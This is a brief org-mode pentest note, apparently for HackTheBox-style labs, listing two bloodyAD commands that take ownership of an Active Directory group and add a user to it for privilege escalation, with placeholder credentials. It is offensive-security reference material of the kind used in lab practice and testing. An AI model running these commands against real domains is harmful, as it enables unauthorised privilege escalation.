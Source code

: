 :PROPERTIES:
:ID:       a187b4e7-47f6-4dcf-90a4-ee2e9ba8a59f
:END:
#+title: Pentest - Active Directory - BloodyAD
#+filetags: :privEsc:pentest:activeDirectory:
#+hugo_base_dir:../


* BloodyAD
Privilege Escalation

#+begin_src shell -n
bloodyAD --host "$IP" -d "domain.htb" -u "<user>" -p "<password>" set owner <group> <user>
bloodyAD --host "$IP" -d "domain.htb" -u "<user>" -p "<password>" add groupMember <group> <user>
#+end_src





[[https://github.com/CravateRouge/bloodyAD][CravateRouge]]
